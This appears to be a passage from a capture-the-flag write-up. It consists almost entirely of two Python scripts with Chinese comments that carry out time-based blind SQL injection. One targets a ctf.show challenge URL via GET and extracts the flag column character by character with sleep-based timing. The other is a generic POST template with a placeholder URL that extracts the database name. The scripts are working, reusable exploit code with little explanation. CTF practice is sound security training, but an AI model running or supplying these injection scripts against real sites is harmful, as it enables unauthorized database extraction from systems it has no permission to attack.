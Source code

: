 ```python
import requests
import json
import time

url = "http://6243abfb-3366-401c-aba0-7d770cb425c1.challenge.ctf.show/index.php?action=check&password=1&username=1"
flag = ''
proxies = {
    "http": "http://127.0.0.1:8080"#出错找不到原因的时候，不妨写个代理，抓包看看
}
for i in range(1,250):
   low = 32
   high = 128
   mid = (low+high)//2
   while(low<high):
       payload = url+"') union select if((ascii(substr((select group_concat(flag) from flag),{0},1))>{1}),sleep(3),1)-- ".format(i,mid)
       try:
            requests.get(url=payload,timeout=1,proxies=proxies)  # 设置请求延时时限，上面休眠3秒，因此这里设置时限1秒，超时就丢弃，不等它跑完，提速
       except:
            low = mid+1
       else:
           high = mid
       mid = (low+high)//2
   if(mid ==32 or mid ==127):
       break
   flag = flag+chr(mid)
   print(flag)
```

当然还有POST型的，

```python
import requests
url = 'xxxxxxxxxxxxxxx'
flag = ''
for i in range(1,250):
   low = 32
   high = 128
   mid = (low+high)//2
   while(low<high):
       payload = "1' and if((ascii(substr(database(),{0},1))>{1}),sleep(5),1)-- ".format(i,mid)
       datas = {
                     "id":payload
                }
       try:
           requests.post(url=url,data=datas)
       except:
           low = mid+1
       else:
           high = mid
       mid = (low+high)//2

   if(mid ==32 or mid ==127):
       break
   flag = flag+chr(mid)
   print(flag)
```
